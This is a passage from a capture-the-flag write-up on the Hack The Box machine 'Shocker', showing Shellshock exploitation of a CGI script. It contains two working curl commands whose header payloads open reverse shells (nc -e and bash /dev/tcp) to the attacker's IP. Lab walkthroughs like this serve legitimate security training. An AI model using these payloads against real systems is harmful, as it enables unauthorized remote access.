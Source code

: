 It works! We've enumerated the users on the box, and can now attempt to get a shell. We're safe to cancel the rest of the gobuster scan, too (we've really hammered this box).

### Getting a Shell

I tried the command from the OWASP talk first:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ curl -H "X-Frame-Options: () {:;};echo;/bin/nc -e /bin/bash 10.10.16.211 9001" http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 05:35:55 up  2:09,  0 users,  load average: 0.00, 0.00, 0.00
```

This didn't work - so I tried my usual bash reverse shell, instead using the User Agent header (as suggested in the [shahjerry post](https://shahjerry33.medium.com/shellshock-high-voltage-a6bd2ce69659)):

```bash
┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ curl -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.211/9001 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

The command hung, and in my netcat listener... I had a shell!

![[Pasted image 20210614103350.png]]